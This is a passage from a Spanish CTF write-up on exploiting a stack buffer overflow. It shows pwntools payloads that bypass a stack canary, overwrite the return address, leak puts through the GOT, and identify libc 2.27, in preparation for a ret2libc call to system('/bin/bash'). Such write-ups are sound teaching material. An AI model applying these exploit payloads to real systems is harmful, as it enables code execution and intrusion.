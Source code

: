 Ahora que sabemos el valor del canary podemos sacar el offset hasta el mirando el código y comprobar si funciona el canary:

```c
#define BUFSIZE 512
. . .
void win() {
	char winner[BUFSIZE]; 
```

En el stack frame solo si guarda esa variable de 512 bytes así que ese será el offset hasta el canary. Por ahora tenemos lo siguiente?

```python
payload = b'A' * offset_canary + p32(canary)
```

Para saber cuanto hay del canary a la dirección de retorno podemos hacer un cyclic y , descubrimos que hay 12 bytes entre el canary y la dirección de retorno.

```python
payload = b'A' * offset_canary + p32(canary) + b'A' * 12 (DIRECCION DE RETORNO)
```

Ahora que ya tenemos el control sobre la dirección de retorno tenemos que mirar a donde queremos mandarl el flujo. En este caso no hay ninguna función que imprima la flag, ni tampoco he visto gadgets interesantes para hacer un ROP. En este caso podríamos intentar hacer un ret2libc y hacer un `system(/bin/bash)`. El problema es que no tenemos la `libc` y con lo cual no tenemos su versión con lo cual no sabemos donde están las funciones como `system`.

Para esto podemos intentar hacer un leak de una función de la libc y buscar en que versión de libc hay ese offset para esa función.

Podemos hacer un leak por ejemplo de `puts` con `puts` para sacar nuestra dirección de la siguiente manera:

```c
payload = b'A' * offset_canary + p32(canary) + b'A' * 12 + p32(exe.plt['puts']) + p32(exe.symbols.win) + p32(exe.got['puts'])
```

Esto nos imprimirá una dirección de memoria que podemos introducirla en una pagina como `libc.rip` y sacar la versión de la libc:

```c
puts address: 0xf7e3c560
```

<figure><img src="https://1790737885-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FslrEYJPx2X6Fc2iLHKGp%2Fuploads%2Fa82EiNLH5hHlUXuc9YKq%2Fimage.png?alt=media&#x26;token=bf488ae5-697a-4347-8c81-e049d4a26186" alt=""><figcaption></figcaption></figure>

<figure><img src="https://1790737885-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FslrEYJPx2X6Fc2iLHKGp%2Fuploads%2F30OrmzBl7MAbEf1ZQv68%2Fimage.png?alt=media&#x26;token=38866cd0-9e78-4d4c-8ac5-2a56625a8c9b" alt=""><figcaption></figcaption></figure>

Podemos ver que nos da unas librerías de las versión 2.27.

Ahora que tenemos la librería podemos descargarla y indicarle a nuestro script que esa va a ser la libc que vamos a utilizar de la siguiente manera:

```python
libc = ELF("./libc6-i386_2.27-3ubuntu1.6_amd64.so")
```

